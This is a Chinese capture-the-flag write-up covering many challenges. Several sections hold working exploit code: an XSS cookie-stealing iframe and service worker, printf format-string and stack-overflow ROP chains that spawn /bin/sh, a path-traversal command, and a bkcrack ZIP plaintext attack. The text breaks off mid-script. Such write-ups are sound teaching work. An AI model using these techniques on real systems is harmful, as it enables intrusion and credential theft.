

# [lyazj](https://github.com/lyazj) 的题解

本题解尽量按照我成功解决问题的时间顺序进行撰写，但不会将同一大题的不同小题（如有）分开进行讲述。

## 一眼盯帧

GIF 闪烁太快，可以使用在线或离线工具进行分帧后再读取。一个更为简单的方法是使用 mpv 播放器打开它，连续按几下 [ 键减速，而后通过金山打字技能得到如下字符串：

```
synt{jrypbzrgbtrrxtnzr}
```

首先借助 Python 进行最简单的猜测：

```python
>>> list(map(lambda x, y: ord(x) - ord(y), 'synt', 'flag'))
[13, 13, 13, 13]
```

太棒了，这个题目没想为难人。结合“所有字母均为小写”的题目提示，立即写出解题算法：

```python
>>> ''.join(map(lambda x: chr((ord(x) - 0x60 + 13) % 26 + 0x60), 'synt{jrypbzrgbtrrxtnzr}'))
'flagnwelcometogeekgamep'
```

现在尝试提交 `flag{welcometogeekgame}`，过了！


## 第三新XSS

题目分为 HTTP 和 HTTPS 两个部分。HTTP 的 bot 逻辑为在 admin 页面设置 cookie，访问我注册的页面，打印浏览器标题；HTTPS 的 bot 逻辑为访问我注册的页面，新建 session，访问 admin 页面并设置 cookie，打印浏览器标题；中间有若干秒量级的等待时间，可用于加载资源或执行攻击操作。

HTTP 部分思路直接，因为所有用户的主页同源，可以直接在 iframe 中访问子页面的 DOM 对象，所以解法十分简单：

```html
<iframe id="page" src="/admin/" onload="document.title = page.contentDocument.cookie"></iframe>
```

用上面的代码注册一个主页，将其 HTTP 开头的链接输入给 bot，即得到第一个 flag。HTTPS 部分我在第二阶段放出提示后才根据网上资料摸索出来。主要的思路是在自己注册的页面上注册一个 service worker，并设置其作用域为站点根目录，来截获当前站点下用户代理所有的请求流量，从而能够篡改 admin 的主页。具体地，注册一正常的 HTML 主页如下：

```html
<script>
navigator.serviceWorker.register("/sw/", {scope: "/"}).then(res => {
  console.log("Service worker registered in scope: " + res.scope);
});
</script>
```

取名为 hack。再以包含 Service-Worker-Allowed 字段的响应头注册一主页，实际存放 Javascript 代码：

```javascript
// {"Content-Type": "application/javascript", "Service-Worker-Allowed": "/"}
console.log("Hello from service worker!");

let body = "<script>function dumpCookie() { ";
body += "document.title = document.cookie; ";
body += "setTimeout(dumpCookie, 100); ";
body += "} ";
body += "dumpCookie();</script>";
console.log(body);

let headers = {"Content-Type": "text/html"};
console.log(headers);

function respond() {
  return new Response(body, {headers: headers});
}

self.addEventListener("fetch", e => {
  console.log(e.request);
  let res = fetch(e.request.url).then(res => {
    console.log(res); return respond();
  }).catch(err => {
    console.log(err); return respond();
  });
  e.respondWith(res);
});
```

取名为 sw。服务器访问 /hack/ 后将注册以 /sw/ 为代码源的 service worker，在短期内即使创建新的会话，这个 service worker 也不会失效。接下来浏览器加载的 admin 页面将包含变量 body 中的内容，它将通过定时器不断把 cookie 写入标题中。


## Z 公司的服务器

这是一道协议分析题。由于没有更好的思路，首先尝试复现附件给出的流量：

```python
import socket

sock = socket.socket()
sock.connect(('prob05.geekgame.pku.edu.cn', 10005))
print(sock.recv(8192))
sock.send(b'<my-token-not-visible-to-otherone>\n')

print(sock.recv(8192))
sock.send(b'\x2a\x2a\x18B0100000063f694\x0a\x0a')

print(sock.recv(8192))
sock.send(b'\x2a\x2a\x18B0100000063f694\x0a\x0a')
sock.send(b'\x2a\x2a\x18B0900000000a87c\x0a\x0a')

print(sock.recv(8192))
```

最后一步的输出是：

```
b'*\x18C\x18J\x18@\x18@\x18@\x18@\xbc\xef\x18\xd2\x18\xccflag{Anc1enT_Tr4nsf3r_pr0tOcoI_15_57111_IN_u5e_t0D4y}\x18J\x18h%\xb3\xd1\xaf*\x18C\x18K6\x18@\x18@\x18@qa\xb2d'
```

复制，提交，第一部分成功！

后面的部分比较困难，首先根据 flag 明文传输和文件后缀名 .jpg 这两个特征，猜测之后服务器回传的大量数据以明文 jpeg 流为 payload。此外，上面的 Python 脚本倒数第二个 print 语句的输出为：

```
b'*\x18C\x18D\x18@\x18@\x18@\x18@\xddQ\xa23flag.txt\x18@54 14513706330 100666 0 1 54\x18@\x18k\xdb3j\x18\xda\x11'
```

其中的 54 可能与文件大小有关，不过 flag 字符串长度为 53，这有些奇怪，先往后看。其他数字，例如 100666 明显为 file mode，但对解题暂时没有帮助。

上网搜索 JPEG 格式的二进制编码规则，根据首尾标记过滤掉无关 TCP 段。直接截取首尾标记之间的内容，生成图片文件，发现无法打开，报无效 0x18 分隔符错误，且大小超出预期值太多。由此注意到 0x18 字节特别多，猜想这可能是一个控制字符，继而比对 JPEG 的头部猜出其作为转义功能使用时，规则可能为将下一个字符编码值减去 0x40，得到该转义序列表示的字符。按照这个规则批量替换后，再次生成图片文件，得到了一幅模糊的图像，但其中的 flag 字迹已经露出来了！这幅图像的大小比预期值大了 75 字节。


尝试用各种工具对这幅图片进行自动修复，失败。一定是遗漏了什么信息。对原始的字节序列进行一次频率统计，结果如下：

```
   0    0    0    0    0    0    0    0    0    0    0    0    0    0    0    0
   0    0    0    0    0    0    0    0 4079    0    0    0    0    0    0    0
  45   33   34   63   58   46   53   64  107   48   56   56   47   51   52   78
  31   39   38   44   46   65   44   60   37   41   44   41   64   40   72  125
 515  116   80  107   98  247   95  135   91  122  100  141  128  112   83  137
  79  214   88   98  225   89  101  136   82  100  107  131   93   97  111  215
  22   47   54   58   43   57   55   76   41   82   56   78   37   81   47   87
  38   43   52   36   49   71   41   71   65   49   49   57   97   52  102  148
   0    0    0    0    0    0    0    0    0    0    0    0    0    0    0    0
   0    0    0    0    0    0    0    0    0    0    0    0    0    0    0    0
  39   44   95   44   40   62   50   67   46   49   42   54   56   82   49   81
  36   42   52   53   67   76   55   80   42   44   75   70   65   47   83  127
  82  131  134  125  112  103  103  131   90   92  165  129   96  128   81  139
  74   93  130  117   95  110  117  126   56  117  169  123   68  107  138  180
 101   98   84   86   48   51   55   45   45   57   58   52   79   93   57   68
 165  111   56   47   38   43  106   53  177   40   51  109  154  101  121  238
```

难道转义只对 0x00--0x1f 和 0x80--0xa0 之间的字符生效？以空格分隔所有十六进制编码，尝试搜索 18 0，18 1，18 2，18 3，18 6，……发现一个奇怪的序列 18 69，它一共出现了 15 次，这大概率可以解释多出的 75 字节。再次抱着尝试的心态，在每个 18 69 后去掉 5 个字符序列（一个字符序列可以是一个非转义字符或一个转义序列）后，图片大小对上了，内容清晰无比，协议的名称也在其中。



最后我们看一下为什么 flag.txt 是 54 字节。

```python
>>> chr(ord('J') - 0x40)
'\n'
```

结论是 flag.txt 是一个标准的 UNIX 文本文件，它具有一个 '\n' 结尾。


## 关键词过滤喵，谢谢喵

### 排序喵

一种直接的方案为选择四种不同的 emoji 字符，其数量分别表示千位、百位、十位和个位的大小。首先将输入替换为这种用 emoji 表示的长度，再将其翻译为阿拉伯数字即可。第二步翻译需要对每一位上的 0 进行特殊处理，确保左侧不多零，且输出不为空。

```
    重复把【[^🙂🙃🫠😉]{1000}】替换成【🙂】喵
    重复把【[^🙂🙃🫠😉]{100}】替换成【🙃】喵
    重复把【[^🙂🙃🫠😉]{10}】替换成【🫠】喵
    重复把【[^🙂🙃🫠😉]{1}】替换成【😉】喵
千：
    把【🙂{4}】替换成【4】喵
    把【🙂{3}】替换成【3】喵
    把【🙂{2}】替换成【2】喵
    把【🙂{1}】替换成【1】喵
    如果没看到【\d(?:[🫠😉]|$)】就跳转到【百】喵
    把【(\d+)】替换成【\1😀】喵
百：
    把【🙃{9}】替换成【9】喵
    ……
    把【🙃{1}】替换成【1】喵
    如果没看到【\d(?:[😉]|$)】就跳转到【十】喵
    把【(\d+)】替换成【\1😀】喵
十：
    把【🫠{9}】替换成【9】喵
    ……
    把【🫠{1}】替换成【1】喵
    如果没看到【\d$】就跳转到【个】喵
    把【(\d+)】替换成【\1😀】喵
个：
    把【😉{9}】替换成【9】喵
    ……
    把【😉{1}】替换成【1】喵
    把【😀】替换成【0】喵
    把【^$】替换成【0】喵
    谢谢喵
```

### 排序喵

考虑一种分治策略。假设每行长度不超过 $2^n - 1\ (n \geq 1)$，此时可以将长度不足 $2^{n - 1}$ 的行全部交换至长度至少为 $2^{n - 1}$ 的行前面，我们将这种从操作定义为 $O(2^{n - 1}, 2^n - 1)$，其中第一个操作数表示分界长度，第二个操作数表示最大长度。执行完 $O(2^{n - 1}, 2^n - 1)$ 后，如果 $n > 1$，对前半段无序子序列执行 $O(2^{n - 2}, 2^{n - 1} - 1)$，对后半段无序子序列执行 $O(2^{n - 1} + 2^{n - 2}, 2^n - 1)$。这两个操作可以借助一个带有条件匹配子表达式的 PCRE 同时实现。如果 $n > 2$，我们再用一条替换规则对四段无序子序列同时进行各自的段内交换操作……类似地不断往下细分，总共重复 $n$ 次后，无序子序列的长度便缩减为 $1$，此时整个序列就排好序了。总共需要 $n$ 条不同的正则替换规则。仔细一看，这是不是有点像快排？！

```python
def get_regex(maxlen, stage):
    s = r'\n(?P<l>'
    minlen = maxlen
    for i in range(stage):
        s += f'(?P<l{i}>' + r'[^\n]{' + f'{minlen//2}' + r'})?'
        minlen //= 2
    s += f'(?P<l{stage}>' + r'[^\n]{' + f'{minlen//2},{minlen-1}' + r'})'
    s += r')\n(?P<m>(?:[^\n]*\n)*?)(?P<r>'
    minlen = maxlen
    for i in range(stage):
        s += f'(?P<r{i}>(?(l{i})' + r'[^\n]{' + f'{minlen//2}' + r'}|))'
        minlen //= 2
    s += f'(?P<r{stage}>' + r'[^\n]{' + f'{0},{minlen//2-1}' + r'})'
    s += r')\n'
    return s

print(r'把【\n+】替换成【\n】喵')
print(r'把【^\n?】替换成【\n】喵')
print(r'把【\n?$】替换成【\n】喵')
for stage in range(0, 12):
    print(f'重复把【{get_regex(4096, stage)}】替换成【\\n\\g<r>\\n\\g<m>\\g<l>\\n】喵')
print(r'把【^\n】替换成【】喵')
print(r'把【\n$】替换成【】喵')
print('谢谢喵')
```

代码中已取 $n = 12$，运行后得到本题答案：

```
把【\n+】替换成【\n】喵
把【^\n?】替换成【\n】喵
把【\n?$】替换成【\n】喵
重复把【\n(?P<l>(?P<l0>[^\n]{2048,4095}))\n(?P<m>(?:[^\n]*\n)*?)(?P<r>(?P<r0>[^\n]{0,2047}))\n】替换成【\n\g<r>\n\g<m>\g<l>\n】喵
重复把【\n(?P<l>(?P<l0>[^\n]{2048})?(?P<l1>[^\n]{1024,2047}))\n(?P<m>(?:[^\n]*\n)*?)(?P<r>(?P<r0>(?(l0)[^\n]{2048}|))(?P<r1>[^\n]{0,1023}))\n】替换成【\n\g<r>\n\g<m>\g<l>\n】喵
重复把【\n(?P<l>(?P<l0>[^\n]{2048})?(?P<l1>[^\n]{1024})?(?P<l2>[^\n]{512,1023}))\n(?P<m>(?:[^\n]*\n)*?)(?P<r>(?P<r0>(?(l0)[^\n]{2048}|))(?P<r1>(?(l1)[^\n]{1024}|))(?P<r2>[^\n]{0,511}))\n】替换成【\n\g<r>\n\g<m>\g<l>\n】喵
……
重复把【\n(?P<l>(?P<l0>[^\n]{2048})?(?P<l1>[^\n]{1024})?(?P<l2>[^\n]{512})?(?P<l3>[^\n]{256})?(?P<l4>[^\n]{128})?(?P<l5>[^\n]{64})?(?P<l6>[^\n]{32})?(?P<l7>[^\n]{16})?(?P<l8>[^\n]{8})?(?P<l9>[^\n]{4})?(?P<l10>[^\n]{2})?(?P<l11>[^\n]{1,1}))\n(?P<m>(?:[^\n]*\n)*?)(?P<r>(?P<r0>(?(l0)[^\n]{2048}|))(?P<r1>(?(l1)[^\n]{1024}|))(?P<r2>(?(l2)[^\n]{512}|))(?P<r3>(?(l3)[^\n]{256}|))(?P<r4>(?(l4)[^\n]{128}|))(?P<r5>(?(l5)[^\n]{64}|))(?P<r6>(?(l6)[^\n]{32}|))(?P<r7>(?(l7)[^\n]{16}|))(?P<r8>(?(l8)[^\n]{8}|))(?P<r9>(?(l9)[^\n]{4}|))(?P<r10>(?(l10)[^\n]{2}|))(?P<r11>[^\n]{0,0}))\n】替换成【\n\g<r>\n\g<m>\g<l>\n】喵
把【^\n】替换成【】喵
把【\n$】替换成【】喵
谢谢喵
```

### Brainfuck 喵

以 emoji 字符作为分隔符和指针，实现一个简单的状态机即可。这道题需要去除/跳过非指令符号，否则会过早地结束取指令，导致不通过。实战这给我带来了不小的困扰。第二阶段出题人也好心地给了提示。下面代码中的数据区大小 16 是随便设的，题目没有给出更多的信息。我的实现不允许指针越界，指针到达边界后继续向外移动将使得代码进入死循环，这样可以及时发现数据区大小不够的问题，避免面对一些莫名其妙的输出。

```python
'''
布局 <代码>🍆<数据>🌱<输出>
代码光标 🌷
数据光标 🌵
进入循环入口光标 🍈
跳过循环入口光标 🍏
'''
numCellsLeft = 16
numCellsRight = 16

print(r'把【[^][.><+-]】替换成【】喵')  # 去除非指令符号
print(r'把【^(.*)$】替换成【🌷\1🍆🍈🌵🍏🌱】喵')  # 添加数据区和分隔符
print(r'左数据区倍增：')
print(r'把【🍈】替换成【🍈🍈】喵')
print(r'如果没看到【🍈{' + f'{numCellsLeft}' + r'}】就跳转到【左数据区倍增】喵')
print(r'右数据区倍增：')
print(r'把【🍏】替换成【🍏🍏】喵')
print(r'如果没看到【🍏{' + f'{numCellsLeft}' + r'}】就跳转到【右数据区倍增】喵')
print(r'把【🍈】替换成【\000】喵')
print(r'把【🍏】替换成【\000】喵')

print(r'主循环：')

##### 输出 #####
print(r'重复把【(?sm:🌷\.(?P<T>.*?)🍆(?P<D0>.*?)🌵(?P<d>.)(?P<D1>.*?)🌱(?P<O>.*))】'
      r'替换成【.🌷\g<T>🍆\g<D0>🌵\g<d>\g<D1>🌱\g<O>\g<d>】喵')

##### 数据光标移动 #####
print(r'重复把【(?sm:🌷>(?P<T>.*?)🍆(?P<D>.*?)🌵(?P<d>[^🌱]))】替换成【>🌷\g<T>🍆\g<D>\g<d>🌵】喵')
print(r'重复把【(?sm:🌷<(?P<T>.*?)🍆(?P<D>.*?)(?P<d>.)🌵)】替换成【<🌷\g<T>🍆\g<D>🌵\g<d>】喵')

##### 增减 #####
for i in range(0x100):
    print(r'重复把【(?sm:🌷\+(?P<T>.*?)🍆(?P<D>.*?)🌵' + '\\%03o'%i + r')】替换成【+🌷\g<T>🍆\g<D>🌵' + '\\%03o'%((i+1)&0xff) + '】喵')
    print(r'重复把【(?sm:🌷\-(?P<T>.*?)🍆(?P<D>.*?)🌵' + '\\%03o'%((i+1)&0xff) + r')】替换成【-🌷\g<T>🍆\g<D>🌵' + '\\%03o'%i + '】喵')

##### 进入循环 #####
print(r'重复把【(?sm:🌷\[(?P<T>.*?)🍆(?P<D>.*?)🌵(?P<d>[^🌱\000]))】替换成【🍈[🌷\g<T>🍆\g<D>🌵\g<d>】喵')

##### 跳过循环 #####
print(r'如果没看到【(?sm:🌷\[.*?🍆.*?🌵\000)】就跳转到【不需要跳过循环】喵')
print(r'跳过循环：')
print(r'重复把【(?sm:🌷(?P<T>[^][🍆]*?)\[)】替换成【\g<T>🍏[🌷】喵')
print(r'重复把【(?sm:🍏\[(?P<T0>[^🍏]*?)🌷(?P<T1>[^][🍆]*?)\])】替换成【[\g<T0>\g<T1>]🌷】喵')
print(r'如果看到【🍏】就跳转到【跳过循环】喵')
print(r'不需要跳过循环：')

##### 回到循环 #####
print(r'重复把【(?sm:🍈\[(?P<T0>[^🍈]*?)🌷\](?P<T1>.*?)🍆(?P<D>.*?)🌵(?P<d>[^🌱\000]))】替换成【🍈[🌷\g<T0>]\g<T1>🍆\g<D>🌵\g<d>】喵')

##### 离开循环 #####
print(r'重复把【(?sm:🍈\[(?P<T0>[^🍈]*?)🌷\](?P<T1>.*?)🍆(?P<D>.*?)🌵\000)】替换成【[\g<T0>]🌷\g<T1>🍆\g<D>🌵\000】喵')

print(r'如果看到【🌷.+🍆】就跳转到【主循环】喵')
print(r'把【(?sm:.*🌱)】替换成【】喵')  # 截取输出
print(r'谢谢喵')
```

上面的代码给出的答案是：

```
把【[^][.><+-]】替换成【】喵
把【^(.*)$】替换成【🌷\1🍆🍈🌵🍏🌱】喵
左数据区倍增：
把【🍈】替换成【🍈🍈】喵
如果没看到【🍈{16}】就跳转到【左数据区倍增】喵
右数据区倍增：
把【🍏】替换成【🍏🍏】喵
如果没看到【🍏{16}】就跳转到【右数据区倍增】喵
把【🍈】替换成【\000】喵
把【🍏】替换成【\000】喵
主循环：
重复把【(?sm:🌷\.(?P<T>.*?)🍆(?P<D0>.*?)🌵(?P<d>.)(?P<D1>.*?)🌱(?P<O>.*))】替换成【.🌷\g<T>🍆\g<D0>🌵\g<d>\g<D1>🌱\g<O>\g<d>】喵
重复把【(?sm:🌷>(?P<T>.*?)🍆(?P<D>.*?)🌵(?P<d>[^🌱]))】替换成【>🌷\g<T>🍆\g<D>\g<d>🌵】喵
重复把【(?sm:🌷<(?P<T>.*?)🍆(?P<D>.*?)(?P<d>.)🌵)】替换成【<🌷\g<T>🍆\g<D>🌵\g<d>】喵
重复把【(?sm:🌷\+(?P<T>.*?)🍆(?P<D>.*?)🌵\000)】替换成【+🌷\g<T>🍆\g<D>🌵\001】喵
重复把【(?sm:🌷\-(?P<T>.*?)🍆(?P<D>.*?)🌵\001)】替换成【-🌷\g<T>🍆\g<D>🌵\000】喵
重复把【(?sm:🌷\+(?P<T>.*?)🍆(?P<D>.*?)🌵\001)】替换成【+🌷\g<T>🍆\g<D>🌵\002】喵
重复把【(?sm:🌷\-(?P<T>.*?)🍆(?P<D>.*?)🌵\002)】替换成【-🌷\g<T>🍆\g<D>🌵\001】喵
重复把【(?sm:🌷\+(?P<T>.*?)🍆(?P<D>.*?)🌵\002)】替换成【+🌷\g<T>🍆\g<D>🌵\003】喵
重复把【(?sm:🌷\-(?P<T>.*?)🍆(?P<D>.*?)🌵\003)】替换成【-🌷\g<T>🍆\g<D>🌵\002】喵
……
重复把【(?sm:🌷\+(?P<T>.*?)🍆(?P<D>.*?)🌵\376)】替换成【+🌷\g<T>🍆\g<D>🌵\377】喵
重复把【(?sm:🌷\-(?P<T>.*?)🍆(?P<D>.*?)🌵\377)】替换成【-🌷\g<T>🍆\g<D>🌵\376】喵
重复把【(?sm:🌷\+(?P<T>.*?)🍆(?P<D>.*?)🌵\377)】替换成【+🌷\g<T>🍆\g<D>🌵\000】喵
重复把【(?sm:🌷\-(?P<T>.*?)🍆(?P<D>.*?)🌵\000)】替换成【-🌷\g<T>🍆\g<D>🌵\377】喵
如果没看到【(?sm:🌷\[.*?🍆.*?🌵\000)】就跳转到【不需要跳过循环】喵
跳过循环：
重复把【(?sm:🌷(?P<T>[^][🍆]*?)\[)】替换成【\g<T>🍏[🌷】喵
重复把【(?sm:🍏\[(?P<T0>[^🍏]*?)🌷(?P<T1>[^][🍆]*?)\])】替换成【[\g<T0>\g<T1>]🌷】喵
如果看到【🍏】就跳转到【跳过循环】喵
不需要跳过循环：
重复把【(?sm:🍈\[(?P<T0>[^🍈]*?)🌷\](?P<T1>.*?)🍆(?P<D>.*?)🌵(?P<d>[^🌱\000]))】替换成【🍈[🌷\g<T0>]\g<T1>🍆\g<D>🌵\g<d>】喵
重复把【(?sm:🍈\[(?P<T0>[^🍈]*?)🌷\](?P<T1>.*?)🍆(?P<D>.*?)🌵\000)】替换成【[\g<T0>]🌷\g<T1>🍆\g<D>🌵\000】喵
如果看到【🌷.+🍆】就跳转到【主循环】喵
把【(?sm:.*🌱)】替换成【】喵
谢谢喵
```


## 初学 C 语言

flag1 在栈上，`printf()` 的格式字符串又可以随便给，直接不停地给 `%p`，flag1 就泄露出来了。

```python
import socket
import numpy as np

s = socket.socket()
s.connect(('prob09.geekgame.pku.edu.cn', 10009))

print(s.recv(8192))
s.send(b'<my-token-not-visible-to-otherone>\n')
print(s.recv(8192))
s.send(b'%p %d' + b' %#lx' * 64 + b'\n')
buf = s.recv(8192)
print(buf)
buf = list(map(eval, buf.decode().split('\n')[0].split(' ')[1:]))
buf = np.array(buf)
print(buf.tobytes())
```

上面的脚本中使用了 `eval()` 以致敬 `printf()` 无私奉献的精神。

对于 flag2，出题人善良地将 `printf()` 写在循环里，使得我们可以使用逐字节写入的手段修改栈中的数据。

```python
import socket
import numpy as np

TEST_RETADDR_OFFSET = 0xa3fd
POP_RAX_RET_OFFSET = 0x5a777
POP_RDI_RET_OFFSET = 0x9cd2
POP_RSI_RET_OFFSET = 0x1781e
POP_RDX_RET_OFFSET = 0x9bdf
SYSCALL_OFFSET = 0x9643
BIN_SH_VALUE = 0x68732f6e69622f

s = socket.socket()
s.connect(('prob09.geekgame.pku.edu.cn', 10009))

print(s.recv(8192))
s.send(b'<my-token-not-visible-to-otherone>\n')
print(s.recv(8192))
s.send(b'%p %165$p\n')  # 前5: 寄存器  6: (%rsp)  163: 金丝雀  164: 老 %rbp  165: 8(%rbp) 即退回地址
buf = s.recv(8192)
print(buf)
rbp = int(buf.split(b'\n')[0].split()[0], base=16) + 0x490  # 当前 %rbp
print('rbp:', hex(rbp))
test_retval = int(buf.split(b'\n')[0].split()[-1], base=16)
print('test_retval:', hex(test_retval))
global_offset = test_retval - TEST_RETADDR_OFFSET
print('global_offset:', hex(global_offset))

def write_byte(offset, value):
    '''
    offset: 相对当前 %rbp 的偏移，必须非负
              +0x00: main 的 %rbp
              +0x08: 退回地址
              +0x10: main 之前的 %rbp
              +0x18: main 的退回地址
    value:  写入的值，范围 [0, 0xff]
    '''
    assert offset > 0
    assert 0 <= value < 0x100
    print(f'write_byte({hex(offset)}, {hex(value)})')

    '''
    构造输出长度为 value 但本身长度 8 字节对齐的字符串 fmt
       6: -0x4f0(%rbp)
      ...
      34: -0x410(%rbp)  fmt 字符串写入开始位置
       m:               向此地址写入 1 字节
    显然 35 <= m <= 67，故 f'%{m}$hhn' 必为 7 字节
    '''
    aligned = (value + 7 + 7) & -8
    m = (aligned >> 3) + 34
    ntrailing = aligned - (value + 7)
    fmt = rb'0' * value + f'%{m}$hhn'.encode() + rb'0' * ntrailing

    addr = (offset + rbp).to_bytes(8, 'little')
    assert b'\n' not in addr and b'\r' not in addr
    buf = b''
    s.send(fmt + addr + b'\n')
    while True:
        b = s.recv(8192)
        print(b)
        buf += b
        if(buf.find(b'Please input your instruction:\n')) >= 0: break

def write_qword(offset, value):
    for _ in range(8):
        write_byte(offset, value & 0xff)
        offset += 1
        value >>= 8

'''
0x00    MAIN_RBP
0x08    POP_RAX_RET
0x10    59  # execve
0x18    POP_RDI_RET
0x20    RBP+0x50  # pathname
0x28    POP_RSI_RET
0x30    0  # argv
0x38    POP_RDX_RET
0x40    0  # envp
0x48    SYSCALL
0x50    BIN_SH_VALUE
'''
write_qword(0x08, POP_RAX_RET_OFFSET + global_offset)
write_qword(0x10, 59)
write_qword(0x18, POP_RDI_RET_OFFSET + global_offset)
write_qword(0x20, rbp + 0x50)
write_qword(0x28, POP_RSI_RET_OFFSET + global_offset)
write_qword(0x30, 0)
write_qword(0x38, POP_RDX_RET_OFFSET + global_offset)
write_qword(0x40, 0)
write_qword(0x48, SYSCALL_OFFSET + global_offset)
write_qword(0x50, BIN_SH_VALUE)

s.send(b'%02000lu\ncat flag*; exit\n')
while True:
    buf = s.recv(8192)
    if not buf: break
    print(buf)
```

上面的代码对地址中可能包含的换行符进行了排除，经过可能是多次的尝试后，flag1 和 flag2 就一起出来啦！


## 小北问答!!!!!

这些答案真的不好找呀！

（1）关键词检索得到 https://hpc.pku.edu.cn/_book/guide/slurm/slurm.html

（2）通过查阅互联网资料知，可以用 `make` 来看内核版本号，遂克隆对应分支，`make kernelversion` 得到

（3）谷歌翻得底朝天，出来了 https://gist.github.com/adamawolf/3048717#file-apple_mobile_device_types-txt-L185

（4）https://github.com/PKU-GeekGame/gs-backend/blob/master/src/store/user_profile_store.py#L72 天真地不相信 Python 版本差异，第二阶段提示版本后才用了 Python3.8 试试，果真有差别

（5）第二阶段学习使用了 web.archive.org，挂梯子后找到 https://web.archive.org/web/20110102140319/http://bilibili.us/video/game.html

（6）没有提示完全没想到是个会议，地方也似国内非国内 https://www.iaspworldconference.com/destination/social-events/


## Baby Stack

flag1 是 ICS 风格，整数溢出漏洞在开源代码里也是非常常见的。出题人非常大方地给了现成的开 /bin/sh 的 `system()`，不考虑善后的话只需要注入一个退回地址。

```python
import socket

s = socket.socket()
s.connect(('prob10.geekgame.pku.edu.cn', 10010))
print(s.recv(8192))
s.send(b'<my-token-not-visible-to-otherone>\n')
print(s.recv(8192))
s.send(b'0\n')
print(s.recv(8192))
s.send(b'0' * 120 + int(0x4011be).to_bytes(8, 'little') + b'\ncat flag\n')
print(s.recv(8192))
```

flag2 需要从动态库中找 gadgets，用 `printf()` 泄漏 GOT 表内容，根据 libc.so.6 的加载位置即时生成注入的退回地址。这次换用 `execv()` 来执行 `/bin/sh` 吧。

```python
import numpy as np
import socket

PRINTF_OFFSET = 0x369b0
EXECV_OFFSET = 0xc1470
BIN_SH_OFFSET = 0x1ae8d8
POP_RDI_RET_OFFSET = 0x625
POP_RSI_RET_OFFSET = 0x13f56
EXIT_OFFSET = 0x1b830

s = socket.socket()
s.connect(('prob11.geekgame.pku.edu.cn', 10011))
print(s.recv(8192))
s.send(b'<my-token-not-visible-to-otherone>\n')

# 跳过开局废话
print(s.recv(8192))
s.send(b'0\n')
print(s.recv(8192))
s.send(b'0\n')

# 获取全局偏移量
data = np.array([
    0x403065,  # 0,  %rbx -> %rsi of scanf()
               # 0,  %rbx -> %rdi of printf()
    0x40303a,  # "", %rbp -> %rdi of scanf()
    0x000000,  # 0,  %r12
    0x401302,  # 获取 printf@plt.got 的值
    0x404028,  # printf@plt.got 的地址
    0x4012b5,  # 打印取得的地址
    *[0 for _ in range(12)],  # add $0x60, %rsp
    0x000000,  # %rbx
    0x000000,  # %rbp
    0x000000,  # %r12
    0x401304,  # ret
    0x401214,  # 回到 main
], dtype='uint64')
s.send(b'0' * 32 + data.tobytes() + b'\n')
buf = b''
while True:
    b = s.recv(8192)
    print(b)
    buf += b
    offset = buf.find(b'luck~:)\n')
    if offset < 0: continue
    offset += len(b'luck~:)\n')
    if offset == len(buf): continue
    offend = buf.find(b'\n', offset)
    if offend < 0: printf = buf[offset :]
    else: printf = buf[offset : offend]
    break
assert len(printf) == 6
printf = int.from_bytes(printf, 'little')
offset = printf - PRINTF_OFFSET
print('global offset: %#x' % offset)

# 跳过开局废话
s.send(b'0\n')
print(s.recv(8192))
s.send(b'0\n')

data = np.array([
    POP_RDI_RET_OFFSET + offset,  # pop %rdi
    BIN_SH_OFFSET + offset,  # "/bin/sh"
    POP_RSI_RET_OFFSET + offset,  # pop %rsi
    0x000000,  # NULL
    0x401304,  # ret
    EXECV_OFFSET + offset,  # &execv
])
s.send(b'0' * 56 + data.tobytes() + b'\nexec cat /flag\n')
while True:
    buf = s.recv(8192)
    if not buf: break
    print(buf)
```


## 简单的打字稿

为了拿到 flag1，输出中又不能出现 flag，故想办法把所有的 flag 替换成 galf，再触发解释器报错即可。由于之前没有用过 Typescript，虽然代码不多，整个编码过程非常艰难。下面的代码用了非常多次替换，但得到 flag1 后才发现，出题人实际上只用了一次 flag。

```typescript
type flag2galf<str extends string> = str extends `${infer pf}flag${infer sf}` ? `${pf}galf${sf}` : str;
type galf = flag2galf<flag2galf<flag2galf<flag2galf<flag2galf<flag2galf<flag2galf<flag2galf<flag2galf<flag2galf<flag2galf<flag2galf<flag2galf<flag2galf<flag2galf<flag2galf<flag1>>>>>>>>>>>>>>>>;
let g: galf = 1;
```


## 猫咪状态监视器

阅读文档，不断尝试，灵机一动，在 SCRIPT 参数中插入几个 ../ 试试：

```python
import socket

s = socket.socket()
s.connect(('prob15.geekgame.pku.edu.cn', 10015))
print(s.recv(8192))
s.send(b'<my-token-not-visible-to-otherone>\n')
print(s.recv(8192))
s.send(b'STATUS\n')
print(s.recv(8192))
s.send(b'../../bin/cat /flag.txt\n')
print(s.recv(8192))
s.send(b'EXIT\n')
print(s.recv(8192))
```

出了！


## 基本功

出题人文件名和大小提示给得相当到位。挑战一，经过海选，定位到原始文件

```
https://chromedriver.storage.googleapis.com/index.html?path=89.0.4389.23/
5.57 MB (5,845,152 字节)
```

以 ZipCrypto 存储方式压缩，使用 ARCHPR Professional Edition 明文攻击，很快便成功了。

挑战二，明文无了，遂等提示。二阶段提示言 12 字节足矣。即刻谷歌出 pcapng 的二进制特征，得到攻击命令

```bash
bkcrack -C challenge_2.zip -c flag2.pcapng -x 0 0a0d0d0a -x 8 4d3c2b1a01000000ffffffffffffffff -d flag2.pcapng
```

其中的小端序和版本号都是猜的，但这么猜正确的概率应该不低。事实上，这么猜一次就成功了。


## Emoji Wordle

第一题答案固定，也可以无限重开会话，故相当于没有尝试次数限制。我的解法使用了 64 格并行尝试的策略，即每次请求为 64 格分别填入尝试答案。初始时每格的候选字符集为全集，尝试过程中某格遇到不存在的字符时从所有格的候选集中移除该字符；某格遇到存在但位置放错的字符时仅从该格的候选集中移除该字符；每个尝试答案从候选集中随机选取。在放出第二阶段提示前，用于产生答案的字符集是未知的。为追求简单，我首先使用了 input 标签 placeholder 中的内容进行尝试，但发现字符集不全，无法求解。遂直接把一个非常全的  emoji unicode 字符集拿来使用，成功得到答案。此算法前期将大量筛掉不存在的字符，后期主要解决排列顺序问题。经过 70 次左右的请求即可获得答案。出题人没有设置任何反爬策略，可以直接使用原始的有状态 requests 会话解决问题。

```python
# emojis.py
import re

patten = re.compile(r';.*# (.)')

emojis = []
first = True
with open('emoji-test.txt') as emoji:
    for line in emoji:
        r = patten.search(line)
        if not r: continue
        if first: first = False; continue
        emojis.append(r.group(1))
```

```python
import emojis
import re
import requests
from bs4 import BeautifulSoup as BS
import random
import time

# 单步猜测
